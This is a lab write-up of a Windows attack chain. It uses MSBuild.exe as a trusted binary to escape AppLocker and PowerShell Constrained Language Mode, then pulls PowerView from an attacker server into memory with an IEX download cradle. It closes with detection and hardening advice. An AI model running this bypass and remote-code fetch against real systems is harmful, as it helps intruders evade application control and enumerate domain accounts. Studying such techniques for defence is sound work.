

Bypassing AppLocker and Constrained Language Mode
A workstation hardened with AppLocker and PowerShell in Constrained Language Mode. The goal: regain Full Language and load post-exploitation tooling in memory, without touching disk in a forbidden directory.
Research conducted in my own isolated lab, with no relation to production systems or third-party assets. Strictly educational. Applying these techniques against systems without prior authorization is illegal.
Objective
The target is a Windows workstation with two containment layers enabled: AppLocker,
restricting where binaries and scripts may run, and PowerShell's Constrained Language
Mode (CLM), which sharply limits what the language can do. The research goal is to load
PowerView to enumerate Active Directory directly in memory —
avoiding writing the script to disk, where both antivirus and AppLocker would catch it.
1. Host recon
The first step is identifying the exact Windows version. That drives the mapping of vulnerabilities and techniques applicable to the build.
systeminfo
2. The obstacle: Constrained Language Mode
The initial plan was to instantiate an HTTP client to download and run PowerView in memory — a classic download cradle pattern:
$browser = New-Object System.Net.WebClientThe attempt fails. PowerShell refuses to create the object because the language mode only allows core types:

Confirming the hypothesis, querying the session's language mode returns
ConstrainedLanguage:
$ExecutionContext.SessionState.LanguageMode
# ConstrainedLanguage
Under CLM, PowerShell blocks
New-Objectfor arbitrary .NET types, direct .NET method calls,Add-Type, COM and more. It's the containment Microsoft couples to AppLocker/WDAC: even with a shell open, the attacker is left without the primitives most offensive tooling assumes.
3. Understanding the AppLocker rules
Before attempting the bypass, you need to know where the policy actually allows execution. The effective rules are read straight from the AppLocker module:
Import-Module AppLocker
$a = Get-AppLockerPolicy -Effective
$a.RuleCollections
The host runs the default rules: it lets the Everyone group run
anything under %PROGRAMFILES% and %WINDIR%. At first glance that looks
safe — a regular user can't write to those directories. In practice, both trees contain
user-writable subfolders and, crucially, Microsoft-signed binaries that execute code on
our behalf (the so-called LOLBINs). That's where the bypass gets in.
4. The bypass idea: a custom PowerShell wrapper
The key point is that Constrained Language Mode is a property of the PowerShell host —
not of the engine itself. Much of the functionality comes from the
System.Management.Automation.dll library, and that DLL keeps operating in
Full Language even when the interactive session is in CLM.
The consequence is direct: if we build our own host — a wrapper that loads
System.Management.Automation.dll and creates a fresh runspace — that
runspace tends to start in Full Language, handing back full PowerShell. And if that wrapper is
launched by a binary AppLocker already trusts (for example MSBuild.exe, which sits
under %WINDIR% and runs inline tasks), both barriers fall at once: AppLocker
approves the executable, and the freshly created runspace escapes CLM.
It's the same family of techniques catalogued in the Ultimate AppLocker Bypass List and in the
psh.xmlfrom How to Hack Like a Legend (references below): using a trusted LOLBIN as the entry point to host a Full Language runspace.
5. Execution: MSBuild regaining Full Language
The proof of concept is the psh.xml from How to Hack Like a Legend: an
MSBuild project file with a C# inline task that loads
System.Management.Automation.dll, creates a runspace, and runs PowerShell
commands. To avoid tripping AppLocker's script rules, the project is delivered with a
.txt extension — MSBuild accepts any extension, and MSBuild.exe lives
under %WINDIR%, so AppLocker already approves it.
cd C:\Windows\Microsoft.NET\Framework64\v4.0.30319
.\MSBuild.exe 'C:\Users\blancha.andrea\Downloads\dunga.txt'
FullLanguage
The build starts, the task runs the PowerShell commands and prints FullLanguage.
The hypothesis holds: the runspace created by our own host is born free of CLM's restrictions,
even though the interactive session that launched it stays confined.
A second project — console.txt — goes beyond running loose commands: it hosts a
full interactive console in Full Language, the PowerShell Console Host
Sample Application. It's a complete shell inside the trusted MSBuild process.
.\MSBuild.exe 'C:\Users\blancha.andrea\Downloads\console.txt'
LanguageMode now returns FullLanguage
Inside the wrapper, the same query that flagged CLM before now returns FullLanguage.
The .NET primitives are available again.
6. Loading PowerView in memory
With Full Language regained, the New-Object that failed at the start is now accepted
without error:
$browser = New-Object System.Net.WebClient;
New-Object from step 2 — now with no exception
From there, the classic download cradle finishes the plan: set the proxy credentials,
download PowerView (renamed miniview.ps1 here) from the attacker's server, and load
it straight into memory with IEX — never touching disk.
$browser.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
IEX($browser.DownloadString('http://192.168.0.16:8000/miniview.ps1'));
IEX7. Result: Active Directory enumeration
With PowerView loaded, domain enumeration flows normally. A simple Get-NetUser
already lists the accounts — and reveals a classic misconfiguration finding:
a password left in clear text in a user's description field.
Get-NetUser | select name, description
description field
Both containment layers fell at once: AppLocker approved execution because the entry point was a
trusted LOLBIN under %WINDIR%, and CLM was bypassed because the runspace was born in
a host we created, not in the restricted interactive host.
8. Detection and mitigation
On the defensive side, this scenario is quite observable and hardenable:
- WDAC alongside (or beyond) AppLocker: a code-based policy with DLL rules closes many of the LOLBINs AppLocker alone ignores.
- Script Block Logging (event 4104) and AMSI: runspace creation and tool imports are recorded even when execution is in memory.
- Block or audit LOLBINs such as
MSBuild.exe,InstallUtil.exeand the like when there's no legitimate need. - Review the AppLocker default rules: the default rules trust entire trees; real hardening requires publisher/hash rules and removing user-writable subfolders under the allowed paths.
References
- Bypassing WDAC and AppLocker using Ligolo — Hacking Articles
- Windows AppLocker Policy: A Beginner's Guide — Hacking Articles
- api0cradle/UltimateAppLockerByPassList
- sparcflow/HackLikeALegend — msbuild/psh.xml
- Sliver C2 — Stagers
- How to Hack Like a Legend — Breaking Windows (Sparc Flow)